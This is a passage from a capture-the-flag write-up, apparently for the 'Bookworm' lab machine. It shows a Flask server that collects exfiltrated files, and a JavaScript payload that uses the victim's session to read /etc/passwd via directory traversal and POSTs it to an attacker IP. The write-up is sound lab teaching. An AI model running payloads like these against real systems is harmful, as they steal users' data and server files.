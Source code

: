     if __name__ == "__main__":
        app.run(debug=True, host="0.0.0.0", port=80)
    

This is a simple Python Flask server that will save any file sent to `/exfil`
to a file in the `exfil` directory as a Zip.

Now I can run the same get for two PDFs above and get a ZIP:

    
    
    oxdf@hacky$ file exfil/exfil.zip 
    exfil/exfil.zip: Zip archive data, at least v2.0 to extract, compression method=deflate
    oxdf@hacky$ unzip -l exfil/exfil.zip 
    Archive:  exfil/exfil.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
         1006  2023-01-30 19:51   Alice's Adventures in Wonderland.pdf
         1001  2023-01-30 19:51   Through the Looking-Glass.pdf
    ---------                     -------
         2007                     2 files
    

#### Directory Traversal

Thinking about how the server is working, likely these e-books are stored on
the file system. It’s worth looking at the download requests to see if I can
read other files off the file system.

Trying the single download doesn’t seem to work. I just get nothing back. I’ll
look at this in Beyond Root. I’ll try this payload to do a directory traversal
in the multi-file download:

    
    
    fetch('/profile', {credentials: 'include'})
    .then((resp) => resp.text())
    .then((resptext) => {
      order_id = resptext.match(/\/order\/(\d+)/);
      fetch("http://bookworm.htb/download/"+order_id[1]+"?bookIds=1&bookIds=../../../../etc/passwd", {credentials: 'include'})
      .then((resp2) => resp2.blob())
      .then((data) => {
        fetch("http://10.10.14.6/exfil", { 
          method: "POST",
          mode: 'no-cors',
          body: data
        });
      });
    });
    

When it returns, there’s a `Unknown.pdf` in the zip:

    
    
    oxdf@hacky$ unzip -l exfil/exfil.zip 
    Archive:  exfil/exfil.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
         1006  2023-01-30 19:51   Alice's Adventures in Wonderland.pdf
         2087  2023-06-05 20:53   Unknown.pdf
    ---------                     -------
         3093                     2 files
    